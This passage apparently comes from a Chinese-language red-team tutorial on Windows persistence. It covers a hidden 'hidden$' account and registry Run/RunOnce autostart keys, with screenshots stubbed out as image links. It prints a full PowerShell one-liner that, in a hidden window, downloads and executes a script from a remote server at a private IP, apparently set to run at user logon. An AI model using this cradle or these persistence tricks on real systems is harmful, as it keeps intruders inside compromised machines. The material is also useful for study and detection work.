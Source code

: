 若administrator用户先登录，则命令行下无法查看到hidden\$账户

若hidden\$用户先登录，则命令行下可查看到hidden\$账户

**ATT&CK: Privilege Persistence-2).Windows利用注册表权限维-BootExecute密钥**

启动注册表项:

HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Run

HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce

HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\RunOnce

HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer

HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run:

![](media/e2c9c7f48165ab47e1e5dad44aa0f763.png)

![](media/bd210953f45a3187bc0be35ee6cbadc5.png)

cmd.exe /c powershell.exe -nop -w hidden -c "\$l=new-object
net.webclient;\$l.proxy=[Net.WebRequest]::GetSystemWebProxy();\$l.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX
\$l.downloadstring('http://10.95.14.216:8080/MWzJkHqxQmTmol');"

user1用户登录:

![](media/6854327a7777db6806f7f24ac03e3848.png)
